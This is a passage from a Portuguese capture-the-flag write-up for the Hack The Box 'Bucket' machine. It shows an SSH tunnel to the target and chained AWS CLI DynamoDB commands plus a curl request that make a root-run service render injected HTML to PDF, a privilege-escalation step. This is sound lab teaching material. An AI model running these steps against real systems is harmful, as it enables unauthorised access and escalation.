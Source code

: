 Para os testes iniciais, conforme documentação da AWS disponível [neste link](https://docs.aws.amazon.com/cli/latest/userguide/cli-services-dynamodb.html), criei um script para criação da tabela, inclusão de uma entrada e posterior chamada POST na URL em questão para gerar o arquivo PDF.

Para simplificar este processo, que está sendo feito da máquina atacante, realizados os seguintes procedimentos:

- Na máquina atacante, criado chave RSA (`ssh-keygen`) e atribuido chave pública dela ao usuário `roy` na máquina bucket para que não fosse necessário o uso de senhas durante a autenticação.
- Na máquina atacante também foi criado o tunelamento da porta local 8000/TCP, a qual foi redirecionada para a porta 8000 na máquina bucket, fazendo o serviço disponível também localmente, o que posteriormente foi possível validar acessando localmente a página conforme evidencia abaixo

```bash
ssh roy@10.10.10.212 -L 8000:127.0.0.1:8000 
```

![Website 8000/TCP via SSH Tunnel](https://i.imgur.com/tiTjm7I.png)

Após algumas tentativas, notei que similar ao desafio encontrado durante o upload do shell reverso, os itens criados no DynamoDB também são removidos após algum tempo, logo foi necessário encadear todas as requisições para que tivéssemos tempo para executar a ação imediatamente assim que os recursos estivessem disponíveis, assim como a posterior cópia dos ativos se obtivermos sucesso na chamada.

```bash
aws dynamodb create-table \
    --table-name alerts \
    --attribute-definitions AttributeName=title,AttributeType=S AttributeName=data,AttributeType=S \
    --key-schema AttributeName=title,KeyType=HASH AttributeName=data,KeyType=RANGE \
    --provisioned-throughput ReadCapacityUnits=10,WriteCapacityUnits=10 \
    --endpoint-url http://s3.bucket.htb \
    --profile bucket.htb && \
aws dynamodb put-item \
    --table-name alerts \
    --item '{"title": {"S": "Ransomware"},"data": {"S": "<html><head><title>Title</title></head><body><h1>Head 1</h1><p>Content</p></body></html>"}}' \
    --return-consumed-capacity TOTAL \
    --endpoint-url http://s3.bucket.htb \
    --profile bucket.htb && \
curl --data "action=get_alerts" http://localhost:8000/
```

Após algumas tentativas, seguido do desafio do tempo para cópia do arquivo para a máquina atacante, foi possível gerar e copiar o arquivo PDF com base no HTML enviado.

```bash
roy@bucket:/var/www/bucket-app/files$ ls -la
total 16
drwxr-x---+ 2 root root 4096 Feb 26 18:51 .
drwxr-x---+ 4 root root 4096 Feb 10 12:29 ..
-rw-r--r--  1 root root   88 Feb 26 18:51 7627.html
-rw-r--r--  1 root root 1870 Feb 26 18:51 result.pdf
```

![Bucket HTB - PoC](https://i.imgur.com/XLxhZ9W.png){: .align-center}
